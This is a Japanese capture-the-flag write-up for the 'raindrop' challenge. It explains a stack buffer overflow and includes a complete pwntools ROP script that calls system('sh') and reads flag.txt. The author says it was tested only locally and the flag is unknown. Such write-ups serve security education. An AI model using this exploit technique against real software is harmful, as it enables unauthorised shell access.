 # raindrop

ローカルで動かしたため、動作の保証はしません。

## Description

53 solves, 134 pt

author:n01e0

おぼえていますか?

## writeup

```bash
$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cba1707049faf8a4e56b2adfe2b8e9813e087e12, for GNU/Linux 3.2.0, not stripped
$ checksec --file ./chall
[*] '/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

system関数が用意されているため、ROPでsystem("/bin/sh");を実行しようと思いましたが、"/bin/sh"がありません。そこで文字列の"finish"の"sh"を使えば良いと判断しました(system("sh");)。

```c
#define BUFF_SIZE 0x10

void help() {
    system("cat welcome.txt");
}
int main() {
    vuln();
}

void vuln() {
    char buf[BUFF_SIZE] = {0};
    show_stack(buf);
    puts("You can earn points by submitting the contents of flag.txt");
    puts("Did you understand?") ;
    read(0, buf, 0x30);
    puts("bye!");
    show_stack(buf);
}
```

ROPチェインを組む材料を揃えます。アドレスは静的解析で求めました。

```
pop ret: rop.find_gadget(['ret'])[0]
sh: 0x4020f4(0x4020f0: finish -> 0x4020f4: s, 0x4020f6: h) または、next(elf.search(b'sh\0'))
call system: 0x4011e5
```

A埋めは0x19個でセグフォとなったので、0x18個で埋めました。

```python
from pwn import *

binfile = "./chall"
context.binary = binfile
context.log_level = 'critical'
elf = ELF(binfile)

help = elf.symbols['help']

HOST='raindrop.quals.beginners.seccon.jp'
PORT=9001
io = process(binfile)
# io = remote(HOST, PORT)

rop = ROP(elf)
rop.raw(rop.find_gadget(['ret'])[0]) # pop ret
rop.raw(pack(next(elf.search(b'sh\0'))))  # sh
rop.raw(pack(0x4011e5)) # call system

# "A"*0x19: segmentation fault
payload = b"A"*0x18  + rop.chain()

io.sendlineafter(b'?', payload)

io.sendline(b'echo exploited')
io.sendlineafter(b'exploited\n', b'cat flag.txt')

print(io.readline().decode('utf-8', 'ignore'), end='')
```

## FLAG

不明

## REF

https://feneshi.co/ctf4b2022writeup/#raindrop

https://qiita.com/kusano_k/items/963b299d1b33b97270b9#raindrop-easy
